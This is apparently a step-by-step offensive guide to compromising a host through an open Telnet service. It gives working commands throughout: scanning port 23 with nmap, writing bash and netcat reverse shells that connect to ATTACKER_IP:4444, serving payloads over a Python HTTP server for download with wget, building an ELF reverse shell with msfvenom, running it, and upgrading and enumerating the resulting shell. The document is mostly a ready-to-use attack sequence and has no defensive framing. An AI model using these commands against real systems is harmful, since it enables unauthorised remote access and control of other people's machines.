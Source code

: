 ## 1. Scan for Telnet Access

1. Check if Telnet (port 23) is open:

```
nmap -p 23 -sV <target-ip>
```

2. 📤 Sending a File Over Telnet

Telnet doesn't support file transfers directly, but you can work around that.

### Option A: Manually Echo Payload

Create a basic bash reverse shell:

```
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > shell.sh
```

Use Telnet to echo it line-by-line on the target:

```
telnet <target-ip> 23
```

Then run:

```
echo '#!/bin/bash' > shell.sh
```

```
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> shell.sh
```

```
chmod +x shell.sh
```

### Option B: Transfer File with HTTP Server

On attacker machine:

```
python3 -m http.server 8000
```

Target (from Telnet shell):

```
wget http://ATTACKER_IP:8000/shell.sh -O /tmp/shell.sh
```

```
chmod +x /tmp/shell.sh
```

---

3. 🎯 Netcat Payload

Netcat can be used directly without generating complex payloads.

➤ Start a Netcat Listener

```
nc -lvnp 4444
```

➤ Create and Run Netcat Payload on Target

From Telnet shell:

```
nc ATTACKER_IP 4444 -e /bin/bash
```

⚠️ If `nc` does not support `-e`, try `ncat` or use a bash reverse shell.

If `-e` is not supported, use:

```
/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---

4. 🧨 Creating Payloads with `msfvenom`

➤ List All Available Payloads

```
msfvenom -l payloads
```

To narrow it down (Linux shells):

```
msfvenom -l payloads | grep linux
```

---

➤ Generate ELF Reverse Shell Payload

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf > rev.elf
```

```
chmod +x rev.elf
```

 ➤ Transfer to Target

```
python3 -m http.server 8000
```

From Telnet shell:

```
wget http://ATTACKER_IP:8000/rev.elf -O /tmp/rev.elf
```

```
chmod +x /tmp/rev.elf
```

---

5. 🚪 Execute Payload

Start listener:

```
nc -lvnp 4444
```

Then on the target (via Telnet):

```
/tmp/shell.sh
```

or

```
/tmp/rev.elf
```

---

6. 🛠️ Post-Exploitation

Upgrade shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerate:

```
uname -a
```

```
id
```

```
whoami
```